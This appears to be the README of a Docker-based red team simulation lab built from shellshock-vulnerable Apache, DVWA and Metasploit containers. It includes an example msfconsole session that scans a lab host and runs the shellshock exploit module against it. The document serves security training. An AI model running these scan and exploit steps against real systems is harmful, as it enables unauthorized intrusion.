 # redteam

Red Team simulation

## Requirements

1. Install docker and docker-compose


## Components

- Postgres database
- Vulnerable hosts:
  - Apache httpd vulnerable to shellshock
  - DVWA (Damn Vulnerable Web Application)
- Metasploit RPC api (red team worker)
- Python director (red team director)
- Metasploit console (for debugging)


## Usage

1. Start the database: `docker-compose -f docker-compose-db.yml up -t 2`
   (persistence is disabled, removing the container will reset the data)
1. Start director and workers: `docker-compose -f docker-compose-workers.yml up -t 2`
1. Start the director: `docker-compose up --build -t 2`


## Manual use of metasploit

If you want to debug the state of the database or perform 
manual actions in metasploit, you can connect to the
msfconsole by ```docker attach redteam_msfconsole_1```


Example attack:


Scan the hostname "target2"
```
> db_nmap target2
```

Check that the host is now in the database
```
> hosts
Hosts
=====

address     mac                name                               os_name  os_flavor  os_sp  purpose  info  comments
-------     ---                ----                               -------  ---------  -----  -------  ----  --------
172.19.0.3  02:42:ac:13:00:03  redteam_target2_1.redteam_default  Unknown                    device         
```

Check which services are now in the database
```
> services
Services
========

host        port  proto  name   state  info
----        ----  -----  ----   -----  ----
172.19.0.3  80    tcp    http   open 
```

Let's assume you expect the host to be vulnerable to shellshock, let's exploit it:
```
> use exploit/multi/http/apache_mod_cgi_bash_env_exec
> show options
> set RHOSTS target2
> set TARGETURI /cgi-bin/stats
```

Run the exploit and profit
```
> exploit
```

## Development

- hack into director directory
